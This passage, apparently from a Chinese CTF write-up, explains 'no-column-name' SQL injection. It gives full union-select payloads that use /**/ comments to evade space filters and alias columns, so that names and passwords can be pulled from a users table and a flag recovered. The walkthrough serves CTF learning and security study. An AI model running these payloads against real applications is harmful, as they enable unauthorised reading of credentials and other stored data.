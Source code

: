 <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439885.png" alt="image-20210522145658218" style="zoom:67%;" />



查询列名，发现不行，用==无列名注入==：**第一列应该为id所以从第二列找，第二列可能为name，第三列为password**

```mysql
重点：获取第二列所有行的数据：
(select group_concat(a) from (select 1,2 as a,3 union select*from users)c)  //第二列别名为a，第一列应该为id

111'/**/union/**/select/**/1，(select/**/group_concat(a)/**/from/**/(select/**/1,2/**/as/**/a,3/**/union/**/select*from/**/users)c),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439886.png" alt="image-20210522150318206" style="zoom:67%;" />



可以看到flag在第二个，我们查询一下对应第三列的值，即可查询出flag：

```mysql
重点：(select group_concat(b) from (select 1,2,3 as b union select*from users)c) //查询flag对应第三列的值

111'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)c),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439887.png" alt="image-20210522150330829" style="zoom:67%;" />

